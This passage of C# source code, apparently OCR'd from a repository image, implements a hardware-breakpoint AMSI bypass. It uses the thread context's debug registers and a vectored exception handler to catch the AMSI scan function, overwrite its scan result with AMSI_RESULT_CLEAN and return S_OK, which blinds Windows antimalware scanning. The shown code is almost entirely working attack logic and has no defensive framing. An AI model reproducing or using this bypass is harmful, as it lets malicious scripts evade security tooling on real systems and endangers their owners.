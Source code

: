 ```powershell
            Marshal.StructureToPtr(ctx, pCtx, true);
            WinAPI.GetThreadContext((IntPtr)(-2), pCtx);

            // Update the CONTEXT64 structure with the current values
            ctx = Marshal.PtrToStructure<WinAPI.CONTEXT64>(pCtx);

            // Enable the breakpoint for function
            EnableBreakpoint(ctx, addr, 0);

            WinAPI.SetThreadContext((IntPtr)(-2), pCtx);
        }

        // Custom exception handler for the Vectored Exception Handler
        public static long Handler(IntPtr exceptions)
        {
            // Marshal the EXCEPTION_POINTERS structure from the exception pointer
            WinAPI.EXCEPTION_POINTERS ep = Marshal.PtrToStructure<WinAPI.EXCEPTION_POINTERS>(exceptions);
            WinAPI.EXCEPTION_RECORD exceptionRecord = Marshal.PtrToStructure<WinAPI.EXCEPTION_RECORD>(ep.pExceptionRecord);
            WinAPI.CONTEXT64 contextRecord = Marshal.PtrToStructure<WinAPI.CONTEXT64>(ep.pContextRecord);

            // Check if the exception is a single step exception and the address is the correct function
            if (exceptionRecord.ExceptionCode == WinAPI.EXCEPTION_SINGLE_STEP && exceptionRecord.ExceptionAddress == addr)
            {
                // Capture the return address and scan result pointer
                ulong returnAddress = (ulong)Marshal.ReadInt64((IntPtr)contextRecord.Rsp);
                IntPtr scanResult = Marshal.ReadIntPtr((IntPtr)(contextRecord.Rsp + (6 * 8))); // 5th arg, swap it to clean

                Console.WriteLine("Buffer: 0x" + contextRecord.R8.ToString("X"));
                Console.WriteLine("Scan Result: 0x" + Marshal.ReadInt32(scanResult).ToString("X"));

                // Modify the scan result to AMSI_RESULT_CLEAN
                Marshal.WriteInt32(scanResult, 0, WinAPI.AMSI_RESULT_CLEAN);

                contextRecord.Rip = returnAddress;
                contextRecord.Rsp += 8;
                contextRecord.Rax = 0; // S_OK

                contextRecord.Dr0 = 0;
                contextRecord.Dr7 = SetBits(contextRecord.Dr7, 0, 1, 0);
                contextRecord.Dr6 = 0;
                contextRecord.EFlags = 0;

                // Set the updated context record back to the exception pointers
                Marshal.StructureToPtr(contextRecord, ep.pContextRecord, true);

                // Continue execution after handling the exception
                return WinAPI.EXCEPTION_CONTINUE_EXECUTION;
            }
            else
            {
                // Continue searching for other exception handlers
                return WinAPI.EXCEPTION_CONTINUE_SEARCH;
            }
        }

        // Enable the breakpoint at the specified address in the context structure
        public static void EnableBreakpoint(WinAPI.CONTEXT64 ctx, IntPtr address, int index)
```